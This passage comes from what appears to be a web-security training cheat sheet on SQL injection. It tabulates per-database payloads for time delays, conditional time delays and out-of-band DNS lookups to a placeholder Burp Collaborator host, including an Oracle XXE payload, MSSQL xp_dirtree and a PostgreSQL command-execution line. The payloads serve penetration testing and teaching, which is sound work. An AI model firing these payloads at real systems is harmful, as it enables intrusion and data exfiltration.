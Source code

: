 #### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| :--------- | ------------------------------------- |
| Microsoft  | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL | `SELECT pg_sleep(10)`                 |
| MySQL      | `SELECT SLEEP(10)`                    |

## Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`            |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`               |

## DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

| Oracle     | The following technique leverages an XML external entity ([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence: `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`  The following technique works on fully patched Oracle installations, but requires elevated privileges: `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`  |
| PostgreSQL | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'` |
| MySQL      | The following techniques work on Windows only: `LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')` `SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` |

## DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
